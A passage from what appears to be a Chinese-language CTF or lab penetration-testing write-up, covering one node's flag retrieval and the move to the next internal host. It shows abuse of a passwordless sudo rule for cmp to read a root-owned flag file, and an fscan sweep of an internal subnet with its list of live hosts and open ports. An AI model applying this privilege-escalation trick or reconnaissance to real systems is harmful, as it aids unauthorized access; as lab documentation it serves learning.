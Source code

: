 ```bash
```

在这里卡了一会, 最后执行 `sudo -l` 才发现可以免密码执行 cmp 命令

```bash
User redis may run the following commands on redis:
    (root) NOPASSWD: /usr/bin/cmp
```

查看 flag

```bash
sudo cmp /flag02.txt /dev/zero -b -l
```

### 节点2 - WIN-OPS8063

redis 内网信息

```bash
$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.14.57  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe1c:b318  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:1c:b3:18  txqueuelen 1000  (Ethernet)
        RX packets 164991  bytes 153065335 (145.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 72917  bytes 25632190 (24.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 12  bytes 679 (679.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12  bytes 679 (679.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

内网 fscan

```bash
$ ./fscan -h 172.22.14.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.14.34    is alive
(icmp) Target 172.22.14.37    is alive
(icmp) Target 172.22.14.25    is alive
(icmp) Target 172.22.14.57    is alive
(icmp) Target 172.22.14.59    is alive
[*] Icmp alive hosts len is: 5
172.22.14.59:8080 open
172.22.14.57:6379 open
172.22.14.59:3306 open
172.22.14.59:445 open
172.22.14.34:1433 open
172.22.14.25:445 open
172.22.14.34:445 open
```